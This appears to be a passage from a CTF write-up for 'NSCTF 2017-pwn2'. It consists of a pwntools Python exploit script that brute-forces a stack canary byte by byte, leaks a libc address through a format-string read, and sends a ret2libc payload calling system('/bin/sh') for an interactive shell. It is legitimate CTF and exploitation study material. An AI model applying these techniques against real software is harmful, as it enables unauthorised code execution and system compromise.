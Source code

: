 例，`NSCTF 2017-pwn2`

```python
    from pwn import *

    p = process('../Desktop/pwn2')
    conut = 0
    while True:
        conut += 1
        canary = '\x00'
        print '[+] Starting...'
        for i in xrange(1,4):
            flag = i
            for j in xrange(0,256):
                p.sendline('Y')
                p.recv()
                p.sendline('%19$p')
                p.recvuntil('Welcome to the game')
                leak_libc_addr = int(p.recv(11),16)
                p.recv()
                payload = 'A'*16
                payload += canary
                payload += chr(j)
                p.send(payload)
                if("***" != p.recv(3)):
                    canary += chr(j)
                    flag = 0
                    log.info('Find the %dth byte of canary : %#x'%(4-i,j))
                    break
            if flag == i:
                print "[-] Exploit failed"
                break
    log.info('Canary is %#x' %(u32(canary)))
    elf = ELF('/lib/i386-linux-gnu/libc.so.6')
    system_offset = elf.symbols['system']
    binsh_offset = next(elf.search('/bin/sh'))
    system_addr = leak_libc_addr - 0x2EBF0 - 0x1B + system_offset
    binsh_addr = leak_libc_addr - 0x2EBF0 - 0x1B + binsh_offset
    log.info('System address is at %#x, /bin/sh address is at %#x' %(system_addr, binsh_addr))


    payload = 'A'*16
    payload += canary
    payload += 'B'*12
    payload += p32(system_addr)
    payload += p32(0x08048670)
    payload += p32(binsh_addr)

    p.sendline('Y') # [*] Do you love me?
    p.recv()
    p.sendline('A') # [*] Input Your name please:
    p.recv()
    p.send(payload) # [*] Input Your Id:
    sleep(3)
    p.interactive()
```
